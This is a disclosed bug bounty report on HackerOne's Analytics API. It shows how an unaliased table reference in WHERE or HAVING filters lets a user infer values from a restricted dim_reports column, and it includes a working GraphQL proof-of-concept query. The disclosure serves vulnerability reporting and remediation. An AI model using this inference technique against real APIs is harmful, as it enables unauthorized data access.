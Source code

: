 # Users querying dim_hacker_reports table through Analytics API can determine data from dim_reports table using WHERE or HAVING query

## Report Details
- **Report ID**: 1824342
- **URL**: https://hackerone.com/reports/1824342
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-05T23:14:15.031Z
- **Disclosed**: 2023-02-22T22:01:36.026Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
The query builder for the Analytics API is vulnerable to a confusion attack. The `dim_reports` and `dim_hacker_reports` tables both pull their data from the `Analytics::DimReport` model. When applying a `WHERE` clause or `HAVING` clause with a `FILTER` in the HackerOne Analytics Query Language (HAQL), an attacker can create references to columns outside of the HAQL table schema. Assume that there is a table looking as following:

| report_id | is_triage_sla_missed |
| --- | --- |
| 27 | false |

And the following two schema definitions:

```ruby
'dim_reports': {
  'model': 'Analytics::DimReport',
  'columns': {
    'report_id': TYPE_NUMBER,
    'is_triage_sla_missed': TYPE_BOOLEAN,
  }
}
```

```
'dim_hacker_reports': {
  'model': 'Analytics::DimReport',
  'columns': {
    'report_id': TYPE_NUMBER,
  }
}
```

The `is_triage_sla_missed` column can only be queried through the `dim_reports` table, which reporters of a report do not have access to. However, when querying the `report_id` from either table, it results in the following SQL to being executed:

```sql
SELECT 
  "analytics"."dim_reports"."report_id" AS dim_hacker_reports__report_id 
FROM 
  "analytics"."dim_reports" 
WHERE 
  (
    "analytics"."dim_reports"."reporter_id" = ?
    AND "analytics"."dim_reports"."reporter_id" IS NOT NULL
  ) 
LIMIT 
  1000 OFFSET 0
```

As can be seen, there is no alias assigned to the `dim_reports` table. This can be used to confuse the query builder by using a reference to the `dim_reports` table, even though that table wasn't queried from. As an example:

```
query {
  analytics(queries: [
    {
      select: [
        {
          field: dim_hacker_reports__report_id
        }
      ]
      from: dim_hacker_reports
      where: {
        predicates: [
          {
            left: {
              ref: dim_reports__is_triage_sla_missed
            }
            function: eq
            right: {
              boolean: false
            }
          }
        ]
      }
    }
  ]) {
    keys
    values
  }
}
```

The `dim_reports__is_triage_sla_missed` reference should fail to be used, because `dim_reports` isn't being selected from or joined into the query. However, it misses this check, allowing the column to be referenced even though it isn't present in the `dim_hacker_reports` schema. Based on whether the query returns the row, the value of the column can be obtained:

**Data in column was guessed correctly**
{F2107683}

**Data in column does not match expectation**
{F2107684}

## Impact

Even though there isn't any sensitive data that can be queried through the `dim_reports` table schema today, this may cause unauthorized access to sensitive data in the future.

## Attachments
- Screenshot_2023-01-05_at_3.12.24_PM.png
- Screenshot_2023-01-05_at_3.13.10_PM.png
